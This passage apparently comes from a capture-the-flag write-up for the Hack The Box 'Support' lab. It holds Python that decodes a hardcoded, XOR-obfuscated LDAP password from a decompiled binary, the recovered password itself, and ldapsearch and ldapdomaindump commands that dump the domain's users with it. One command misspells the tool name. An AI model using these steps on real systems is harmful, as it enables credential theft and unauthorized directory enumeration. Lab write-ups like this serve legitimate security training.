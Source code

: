It is stored not in plaintext but in some kind of self proclaimed encryption.   
Which we can just unpack in python: 
```python
import base64

enc_password = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

array = base64.b64decode(enc_password)

array2 = []
for i in range(len(array)):
    array2.append(chr(array[i] ^ key[i % len(key)] ^ 223))

print("".join(array2))
```

And we get the password
```bash
python3 decrypt.py
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

So by the looks of it, UserInfo is connecting to ldap with that password and the user `support\\ldap` 
```csharp
// Token: 0x06000012 RID: 18 RVA: 0x00002190 File Offset: 0x00000390
public LdapQuery()
{
	string password = Protected.getPassword();
	this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
	this.entry.AuthenticationType = AuthenticationTypes.Secure;
	this.ds = new DirectorySearcher(this.entry);
}
```


## Dump the LDAP domain 

```bash
ldapsearch \
    -x \
    -H ldap://<IP> \
    -D '<DOMAIN>\<username>' \
    -w '<password>' \
    -b "CN=Users,DC=<1_SUBDOMAIN>,DC=<TLD>"
```
```bash
lapsearch \
    -x \
    -H ldap://dc.support.htb \
    -D 'support\ldap' \
    -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
    -b "CN=Users,DC=SUPPORT,DC=HTB" | \
tee ldap_dc.support.htb.txt
```
```bash
ldapdomaindump \
    -u 'support\ldap' \
    -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' \
    dc.support.htb
```

